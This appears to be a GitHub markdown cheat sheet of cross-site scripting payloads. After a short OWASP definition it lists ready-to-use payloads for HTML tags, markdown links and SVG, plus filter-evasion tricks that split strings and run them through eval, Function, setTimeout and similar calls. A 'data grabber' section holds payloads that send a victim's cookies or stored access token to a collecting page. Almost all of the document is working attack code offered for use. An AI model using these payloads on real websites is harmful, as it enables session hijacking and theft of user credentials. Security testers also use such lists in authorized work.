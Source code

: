 # XSS
> Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.
>
>Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.


> 📖 More information: https://owasp.org/www-community/attacks/xss/

---

## Data grabber for XSS
> Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```js
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
```
```js
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
```
```js
<script>new Image().src='http://localhost/cookie.php?c='+document.cookie;</script>
```
```js
<script>new Image().src='http://localhost/cookie.php?c='+localStorage.getItem('access_token');</script>
```

## XSS in HTML/Applications
### Basic Payload
```js
<script>alert('XSS')</script>
```
```js
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```
```js
"><script>alert("XSS")</script>
```
```js
"><script>alert(String.fromCharCode(88,83,83))</script>
```

### Img tag payload
```html
<img src=x onerror=alert('XSS');>
```
```html
<img src=x onerror=alert('XSS')//
```
```html
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
```
```html
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```
```html
<img src=x:alert(alt) onerror=eval(src) alt=xss>
```
```html
"><img src=x onerror=alert("XSS");>
```
```html
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

### Video tag payload
```html
<video autoplay onloadstart="alert('XSS')" src=x></video>
```
```html
<video autoplay controls onplay="alert('XSS')"><source src="x"></video>
```
```html
<video controls onloadeddata="alert('XSS')"><source src="x"></video>
```
```html
<video controls onloadedmetadata="alert('XSS')"><source src="x"></video>
```
```html
<video controls onloadstart="alert('XSS')"><source src="x"></video>
```
```html
<video controls oncanplay="alert('XSS')"><source src="x"></video>
```

### Audio tag payload
```html
<audio autoplay controls onplay="alert('XSS')"><source src="x"></audio>
```
```html
<audio autoplay controls onplaying="alert('XSS')"><source src="x"></audio>
```

## XSS in Markdown
```md
[a](javascript:prompt(document.cookie))
```
```md
[a](j a v a s c r i p t:prompt(document.cookie))
```
```md
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
```
```md
[a](javascript:window.onerror=alert;throw%201)
```

## XSS in SVG (short)
```html
<svg xmlns='http://www.w3.org/2000/svg' onload='alert(document.domain)'/>
```
```html
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
```
```html
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
```
```html
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

## Bypass word blacklist with code evaluation
```js
eval('ale'+'rt(0)');
```
```js
Function('ale'+'rt(1)')();
```
```js
new Function`alert`6``;
```
```js
setTimeout('ale'+'rt(2)');
```
```js
setInterval('ale'+'rt(10)');
```
```js
Set.constructor('ale'+'rt(13)')();
```
```js
Set.constructor`alert(14)```;
```

---

## 📚 References
- [owasp.org/www-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)
- [github.com/LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)
- [netsec.expert/posts/xss-in-2021/](https://netsec.expert/posts/xss-in-2021/)
- [portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [owasp.org/www-community/xss-filter-evasion-cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [en.wikipedia.org/wiki/Cross-site_scripting](https://en.wikipedia.org/wiki/Cross-site_scripting)













